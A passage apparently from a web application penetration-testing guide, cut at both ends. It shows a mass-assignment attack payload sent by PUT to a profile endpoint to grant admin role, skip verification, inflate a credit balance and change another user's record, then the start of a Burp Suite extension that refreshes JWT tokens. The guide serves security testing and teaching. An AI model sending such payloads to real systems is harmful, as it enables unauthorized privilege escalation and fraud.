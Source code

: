 ```python
    'name': 'John Doe',
    'email': 'john@example.com',
    'role': 'admin',           # Privilege escalation
    'is_verified': True,       # Skip verification
    'credit_balance': 1000000, # Financial manipulation
    'user_id': 1              # Attempt to modify different user
}

# Send malicious request
response = requests.put('/api/users/profile', json=attack_data)
```

---

## 🔧 Advanced Tools and Techniques

### 🛠️ Custom Tool Development

#### **Advanced Burp Suite Extensions**

**Custom Authentication Handler:**
```python
from burp import IBurpExtender, IHttpListener
import json
import base64

class BurpExtender(IBurpExtender, IHttpListener):
    def registerExtenderCallbacks(self, callbacks):
        self._callbacks = callbacks
        self._helpers = callbacks.getHelpers()
        callbacks.setExtensionName("Advanced Auth Handler")
        callbacks.registerHttpListener(self)
        
    def processHttpMessage(self, toolFlag, messageIsRequest, messageInfo):
        if messageIsRequest:
            self.handle_request(messageInfo)
        else:
            self.handle_response(messageInfo)
    
    def handle_request(self, messageInfo):
        request = messageInfo.getRequest()
        requestInfo = self._helpers.analyzeRequest(request)
        
        # Auto-refresh JWT tokens
        headers = requestInfo.getHeaders()
        for i, header in enumerate(headers):
            if header.startswith("Authorization: Bearer "):
                token = header.split(" ")[2]
                if self.is_token_expired(token):
                    new_token = self.refresh_token()
                    headers[i] = f"Authorization: Bearer {new_token}"
                    
        # Rebuild request with new headers
        new_request = self._helpers.buildHttpMessage(headers, 
                                                   request[requestInfo.getBodyOffset():])
        messageInfo.setRequest(new_request)
    
    def is_token_expired(self, token):
        try:
            # Decode JWT payload
            payload = token.split('.')[1]
            # Add padding if needed
            payload += '=' * (4 - len(payload) % 4)
```